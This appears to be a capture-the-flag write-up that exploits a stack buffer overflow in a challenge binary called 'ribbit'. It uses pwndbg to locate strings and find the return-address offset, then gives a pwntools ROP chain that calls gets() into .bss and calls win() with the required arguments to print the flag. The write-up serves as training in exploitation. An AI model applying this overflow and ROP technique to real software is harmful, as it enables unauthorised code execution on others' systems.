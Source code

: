 The first argument is only required to be a constant value, `0xf10c70b33f`, the the second argument has to be a pointer to a memory address where the string `You got this!` is stored, and `Just do it!` stored 8 bytes after that.


If we search for the two strings in the binary, we will se that they are stored sequentially, but we need 8 bytes of padding in between them. This is because the if-check compares `You got this!` with the first 13 bytes of `motivation`, and `Just do it!` with the 11 bytes starting 21 bytes into `motivation`.
```console
pwndbg> search "You got this!"
Searching for value: 'You got this!'
ribbit          0x498013 'You got this!'
pwndbg> search "Just do it!"
Searching for value: 'Just do it!'
ribbit          0x498021 'Just do it!'
pwndbg> x/3 0x498013
0x498013:       "You got this!"
0x498021:       "Just do it!"
0x49802d:       ""
```

This means that we will need to write `You got this!XXXXXXXXJust do it!`, where `X` is a padding byte, into the binary. Because we don't have a stack address, we cannot write it into the buffer `gets` writes to, so we will write it into the `bss` section of the binary instead (which is a writeable memory region).

To write the string into the `bss` section, we will start off our payload by writing the address of `bss` into the `rdi` register, and the call `gets`. This will write our next input into that memory location, which we then can use as the second argument to the `win` function.


The last thing we need is the amount of padding until we reach the return address, which we find to be 40 bytes by using `cyclic` from pwntools.
```console
pwndbg> cyclic -l 0x6161616161616166
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

As we now have all the parts of our payload we can assemble it.
```python
# Gadget to set register values
pop_rdi = 0x40201f
pop_rsi = 0x40a04e

# Padding
payload = b"A"*40

# Call gets(<address of bss section>)
payload += pack(pop_rdi)
payload += pack(exe.bss())
payload += pack(exe.sym.gets)

# Call win(0xf10c70b33f, <address of bss section>) to pass the if-check and print the flag
payload += pack(pop_rdi)
payload += pack(0xf10c70b33f)
payload += pack(pop_rsi)
payload += pack(exe.bss())
payload += pack(exe.sym.win)
```
{: .nolineno }
